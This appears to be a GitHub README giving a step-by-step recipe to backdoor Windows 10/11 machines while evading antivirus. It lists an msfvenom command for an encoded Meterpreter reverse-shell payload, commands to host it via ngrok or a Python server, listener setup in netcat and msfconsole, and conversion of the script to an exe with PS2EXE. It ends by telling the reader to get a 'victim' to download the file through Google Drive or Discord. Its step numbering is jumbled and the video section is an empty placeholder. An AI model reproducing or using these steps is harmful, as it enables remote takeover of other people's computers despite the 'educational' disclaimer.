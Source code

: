 # Windows 11/10 Evade AV & Backdoor

#### **NOTE: For educational purposes only!**
#### **NOTE: Some Meterpreter commands may upset Defender.**
#### **NOTE: Defender Smart screen still alerts of potential virus.**

## Steps to Compromise:

1. **Generate the payload:** <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP_ADDRESS> LPORT=<1234> -i 2 -e cmd/powershell_base64 -f ps1
4. **Setup server in files directory:** <br>
ngrok tcp 80 or python3 -m http.server 80 <br>
Using ngrok, or python if local
5. **Setup your listener with nc or msfconsole:** <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>
6. **Base64 encode the trojan.ps1 script.** <br>
trojan.ps1 <br>
7. **Convert our encoded trojan.ps1 into .exe using PS2EXE.** <br>
encoded_trojan.ps1
1. **Setup Trojan Horse.** 
8. **Get creative. Have victim download "exe" file to their machine (i.e through ngrok server, google drive, discord, or other means.)**
  
# Demonstration Video
Insert video in markdown!
